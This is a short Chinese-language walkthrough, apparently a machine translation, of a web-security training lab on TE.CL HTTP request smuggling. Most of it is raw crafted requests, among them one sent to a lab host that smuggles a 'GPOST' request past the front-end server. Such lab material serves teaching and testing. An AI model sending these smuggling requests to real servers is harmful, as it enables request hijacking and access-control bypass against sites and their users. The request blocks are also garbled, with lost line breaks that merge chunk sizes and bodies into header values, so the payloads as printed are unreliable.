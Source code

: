 # TE。CL 漏洞:

这里，前端服务器使用`Transfer-Encoding`报头，后端服务器使用`Content-Length`报头。我们可以执行简单的 HTTP 请求走私攻击，如下所示:

```
POST / HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 3 
Transfer-Encoding: chunked 8 
SMUGGLED
0
```

# 实验室:HTTP 请求走私，基础 TE。CL 漏洞

本实验涉及前端和后端服务器，后端服务器不支持分块编码。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决 lab，偷偷将一个请求发送到后端服务器，这样后端服务器处理的下一个请求就好像使用了方法`GPOST`。

我们需要创建一个错误

```
"Unrecognized method GPOST"
```

这一个在某种程度上也和前一个非常相似。

> 我们需要捕获 GET 请求。
> 
> 将 GET 方法更改为 POST。
> 
> 删除不必要的标题。

向请求添加`Transfer-Encoding: Chunked`头

添加我们的有效负载来创建错误。

```
**5c**  ===> 92 bytes
GPOST / HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 x=1 
0
```

但是最重要的是取消选中 repeater 中的“更新内容长度”。

```
POST / HTTP/1.1
Host: 0ad8008b037e46d8c01669a5007c004d.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```
